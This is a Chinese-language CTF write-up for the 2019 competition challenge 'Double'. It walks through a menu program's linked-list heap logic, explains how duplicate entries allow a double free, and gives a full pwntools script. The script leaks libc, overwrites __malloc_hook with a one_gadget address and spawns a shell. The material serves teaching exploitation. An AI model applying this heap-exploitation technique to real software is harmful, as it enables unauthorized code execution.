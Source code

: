 ```yaml
---
title: Double
categories:
- 2019信息安全竞赛
---
```

# Double 

## 前言

周末再刷一下前几天没做完的信安竞赛题，题目利用比较简单，但是程序代码写的有点复杂，自己读代码的能力太差，这里还是总结一下。

## 程序逻辑

程序共有四个功能，New、Show、Edit和Delete

![main](./1.jpg)

NewInfo里先malloc了一个chunk做node，观察之后，可以新建一个结构体来帮助理解代码。一个node大小为0x18，前4字节是chunk在链表中的index，第二个4字节表示chunk的内容的size，下面8字节存chunk_addr，最后8字节存储next_node指针，最后一个Node这个成员为0。  
每次New的时候都会先新建一个node，通过s2输入至多0x100长的数据。0x4040d0处存放链表头指针，0x4040d8处存放链表尾指针，每次先判断尾指针是否有值且上一个chunk的内容是否和这次输入的数据相等，如果一样，直接把上一个node复制一遍，加入到链表尾部。

![node](./2.jpg)

这里malloc5个内容不同的chunk观察一下帮助理解。

![node2](./3.jpg)

如果不满足上述条件，则重新malloc一个chunk加入到链表尾部。

![new1](./4.jpg)
![new2](./5.jpg)

Show函数挨个遍历node，根据Node->index寻找目标index，找到就用puts输出其内容。

![show](./6.jpg)

Edit函数通过Buf获取输入，根据输入长度判断，如果小于等于原来chunk的size就直接strcpy过去，否则重新malloc，并修改node的相应字段。

![edit](./7.jpg)

Delete函数依次释放chunk_addr和node，并将node从链表中摘除。注意删除的时候并没有修改链表的index，如果不是删除最后一个chunk，New的时候也是从最后一个index开始，index不会存在free之后在malloc即可复用，而是不断递增。

```c
v3->next_node = ptr->next_node;//v3为目标node的前一个Node
```

![delete](./8.jpg)

## 漏洞利用

利用New相同的内容即可获得两个同样的node，可以double free。先malloc两个samll bin，删除第一个，show第二个chunk即可泄露Libc。在gdb寻找malloc_hook周围fake_chunk，double free之后malloc到这个chunk，修改__malloc_hook为one_gadget_addr，再Malloc一个chunk即可get shell。

## exp.py

```py
#coding = utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="DEBUG")
context.terminal = ['tmux','split','-h']
debug = 0
p = process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
if debug:
    gdb.attach(p)

def New(data):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('Your data:\n')
    p.sendline(data)

def Show(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('Info index: ')
    p.sendline(str(index))

def Edit(index,data):
    p.recvuntil('> ')
    p.sendline('3')
    p.recvuntil('Info index: ')
    p.sendline(str(index))
    p.sendline(data)

def Delete(index):
    p.recvuntil('> ')
    p.sendline('4')
    p.recvuntil('Info index: ')
    p.sendline(str(index))

def exp():
    #leak libc
    New('a'*0xf0)#0
    New('a'*0xf0)#1
    Delete(0)
    Show(1)
    libc_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 88 - 0x3c4b20
    log.success('libc base =>' + hex(libc_base))
    malloc_hook = libc_base + libc.symbols['__malloc_hook']
    fake_chunk = malloc_hook - 0x23
    gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
    shell_addr = libc_base + gadgets[1]
    #get shell
    New('a'*0x67)#2
    New('a'*0x67)#3
    New('b'*0x67)#4
    New('c'*0x20)#5
    Delete(2)
    Delete(4)
    Delete(3)
    #gdb.attach(p)
    payload = p64(fake_chunk)
    payload = payload.ljust(0x67,'a')
    New(payload)#init chunk3
    New('d'*0x67)#init chunk4
    New('e'*0x67)#init chunk2
    payload = 'a'*0x13 + p64(shell_addr)
    payload = payload.ljust(0x67,'a')
    New(payload)#overwrite
    #trigger
    p.recvuntil('> ')
    p.sendline('1')
    p.interactive()

exp()
```
